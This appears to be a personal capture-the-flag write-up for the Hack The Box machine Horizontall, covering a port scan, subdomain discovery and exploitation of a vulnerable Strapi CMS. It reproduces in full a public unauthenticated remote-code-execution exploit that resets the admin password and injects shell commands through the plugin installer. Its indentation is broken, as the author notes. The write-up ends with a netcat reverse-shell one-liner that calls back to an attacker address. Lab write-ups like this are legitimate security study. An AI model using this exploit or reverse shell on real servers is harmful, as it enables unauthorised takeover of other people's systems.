 # Horizontall 

## Foothold


###. 1 Nmap scan :

~~~php
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-25 12:13 EDT
Nmap scan report for horizontall.htb (10.10.11.105)
Host is up (0.13s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ee:77:41:43:d4:82:bd:3e:6e:6e:50:cd:ff:6b:0d:d5 (RSA)
|   256 3a:d5:89:d5:da:95:59:d9:df:01:68:37:ca:d5:10:b0 (ECDSA)
|_  256 4a:00:04:b4:9d:29:e7:af:37:16:1b:4f:80:2d:98:94 (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: horizontall
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.27 seconds
~~~

Kinda stuck. Page doesn't present anything interactive. Bruteforcing directiories or subdomains also didnt work.

<Mark> Found a subdomain while checking the app code.. it was purely unintentional tho.. I should have known to focus on that js code when thats the only thing in sight </Mark> 

## api-prod.horizontall.htb - added to /etc/hosts/

Dirbusted that bich and we got a sing in form.. 


The form was not really of use. Instead, we find /admin/init, which gives us a 200 (OK) code and lets us see the version of Strapi. Googling for vulnerabilities, we find a convenient python script : 
~~~python
# Exploit Title: Strapi CMS 3.0.0-beta.17.4 - Remote Code Execution (RCE) (Unauthenticated)

# Date: 2021-08-30
# Exploit Author: Musyoka Ian
# Vendor Homepage: https://strapi.io/
# Software Link: https://strapi.io/
# Version: Strapi CMS version 3.0.0-beta.17.4 or lower
# Tested on: Ubuntu 20.04
# CVE : CVE-2019-18818, CVE-2019-19609

#!/usr/bin/env python3


import requests
import json
from cmd import Cmd
import sys


if len(sys.argv) != 2:
print("[-] Wrong number of arguments provided")
print("[*] Usage: python3 exploit.py <URL>\n")
sys.exit()
  

class Terminal(Cmd):
prompt = "$> "
def default(self, args):
code_exec(args)

def check_version():
global url
print("[+] Checking Strapi CMS Version running")
version = requests.get(f"{url}/admin/init").text
version = json.loads(version)
version = version["data"]["strapiVersion"]
if version == "3.0.0-beta.17.4":
print("[+] Seems like the exploit will work!!!\n[+] Executing exploit\n\n")
else:
print("[-] Version mismatch trying the exploit anyway")
  
def password_reset():
global url, jwt
session = requests.session()
params = {"code" : {"$gt":0},
"password" : "SuperStrongPassword1",
"passwordConfirmation" : "SuperStrongPassword1"
}
output = session.post(f"{url}/admin/auth/reset-password", json = params).text
response = json.loads(output)
jwt = response["jwt"]
username = response["user"]["username"]
email = response["user"]["email"]
if "jwt" not in output:
print("[-] Password reset unsuccessfull\n[-] Exiting now\n\n")
sys.exit(1)
else:
print(f"[+] Password reset was successfully\n[+] Your email is: {email}\n[+] Your new credentials are: {username}:SuperStrongPassword1\n[+] Your authenticated JSON Web Token: {jwt}\n\n")
def code_exec(cmd):
global jwt, url
print("[+] Triggering Remote code executin\n[*] Rember this is a blind RCE don't expect to see output")
headers = {"Authorization" : f"Bearer {jwt}"}
data = {"plugin" : f"documentation && $({cmd})",
"port" : "1337"}
out = requests.post(f"{url}/admin/plugins/install", json = data, headers = headers)
print(out.text)

  

if __name__ == ("__main__"):
url = sys.argv[1]
if url.endswith("/"):
url = url[:-1]
check_version()
password_reset()
terminal = Terminal()
terminal.cmdloop()
~~~
 * Note that identation is wrong. For a working version, check the files in CTF/HTB/Horizontall*


With this script , we gain RCE and ofc, a reverse shell. (tried the basic nc, python and bash, none worked, this worked tho :
~~~bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.152 1234/tmp/f
~~~

